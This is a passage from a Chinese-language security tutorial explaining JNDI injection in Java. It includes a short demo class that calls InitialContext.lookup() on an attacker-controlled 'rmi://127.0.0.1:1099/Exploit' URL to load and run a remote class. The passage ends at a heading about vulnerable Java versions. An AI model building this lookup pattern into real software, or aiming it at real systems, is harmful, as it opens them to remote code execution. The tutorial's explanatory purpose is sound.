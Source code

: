 ## 三、JNDI注入

JNDI 注入，即当开发者在定义 `JNDI` 接口初始化时，`lookup()` 方法的参数可控，攻击者就可以将恶意的 `url` 传入参数远程加载恶意载荷，造成注入攻击。

**代码示例：**

代码中定义了 `uri` 变量，`uri` 变量可控，并定义了一个 `rmi` 协议服务， `rmi://127.0.0.1:1099/Exploit` 为攻击者控制的链接，最后使用 `lookup()` 函数进行远程获取 `Exploit` 类（Exploit 类名为攻击者定义，不唯一），并执行它

```plain
package com.rmi.demo;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class jndi {
    public static void main(String[] args) throws NamingException {
        String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的 uri 变量
        InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
        initialContext.lookup(uri); // 获取指定的远程对象

    }
}
```

具体攻击流程图  
[![](assets/1711556038-9b86ae55cbff042b2bff638c39213344.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194150-37535482-bda6-1.png)

JNDI 注入对 JAVA 版本有相应的限制，具体可利用版本如下：
